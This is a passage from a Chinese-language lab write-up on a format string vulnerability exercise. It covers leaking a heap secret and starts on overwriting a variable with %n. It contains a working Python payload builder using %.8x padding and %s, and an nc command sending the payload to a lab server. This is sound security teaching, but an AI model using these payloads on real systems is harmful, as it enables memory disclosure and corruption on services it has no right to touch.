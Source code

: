 并且在打印出的stack data张可以发现有3个`0xffffd3b0`，是main函数中`buf`的地址，分别是call `dummy_function`,`myprintf`和`printf`时作为参数压入栈中，中间大量的`nil`是在`dummy_function`中通过`memset`填充的0。



### Task 2.B: Heap Data

由之前打印出来的信息可以知道secret message的地址是：`0x080b4008`，buffer的地址距离esp有64个偏移。

构造Payload:（这里可以没有abcd）

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008	# 把secret message的地址放在buffer开头
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%s"	# 因为第64个是buffer的起始地址，所以先填63个%.8x(%p也可以)，第64个填%s输出字符串

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

```terminal
python3 build_string.py 
cat badfile | nc 10.9.0.5 9090
```

成功输出secret message：

![image-20220421201731894](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220421201731894.png)



## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value

要求只要修改target变量的值就可以了，所以可以用`%n`占位符，作用是计算到目前为止输出的字节数，写入对应的参数指定的内存地址。

所以用`target`的地址`0x080e5068`填充在buffer的起始地址，并且在第64个偏移处填`%n`
